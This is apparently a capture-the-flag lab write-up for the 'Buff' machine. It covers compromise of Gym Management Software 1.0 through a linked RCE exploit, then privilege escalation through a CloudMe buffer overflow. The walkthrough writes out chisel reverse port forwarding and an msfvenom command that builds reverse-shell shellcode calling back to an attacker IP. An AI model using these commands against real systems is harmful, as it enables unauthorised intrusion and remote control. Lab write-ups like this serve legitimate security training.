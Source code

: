 # Buff

## Gaining Access

Nmap Scan:

<figure><img src="../../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

### Gym

On port 8080, it was a gym-related page:

<figure><img src="../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

We can use `gobuster` on the website to find more directories:

<figure><img src="../../../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>

Checking the `contact.php` file, we see the software used to make this.

<figure><img src="../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

Then, we can search for exploits for this Gym Management Software 1.0.

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

We can try the RCE exploit:

{% embed url="https://www.exploit-db.com/exploits/48506" %}

By running the exploit, we would gain a webshell:

<figure><img src="../../../.gitbook/assets/image (164).png" alt=""><figcaption></figcaption></figure>

Afterwards, gaining a reverse shell via nc.exe or Powershell is trivial.

## Privilege Escalation

### CloudMe

When enumerating the user's directory, we find a CloudMe\_1112.exe file:

<figure><img src="../../../.gitbook/assets/image (4) (4).png" alt=""><figcaption></figcaption></figure>

When checking for exploits regarding CloudMe, we can find a few Buffer Overflow exploits that can be used for RCE using shellcode.

<figure><img src="../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://www.exploit-db.com/exploits/48389" %}

CloudMe for this machine runs on port 8888 on this machine, so we can just run it and use chisel to port forward port 8888.

```bash
# on Kali
chisel server --port 4444 --reverse

# on host
.\chisel.exe 10.10.16.9:4444 R:8888:localhost:8888
```

Then, we need to generate new shellcode for the exploit:

{% code overflow="wrap" %}
```bash
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.16.9 LPORT=443 -b '\x00\x0A\x0D' -f python -v payload
```
{% endcode %}

Afterwards, we can simply run the exploit and it would spawn a root shell on the listener port.
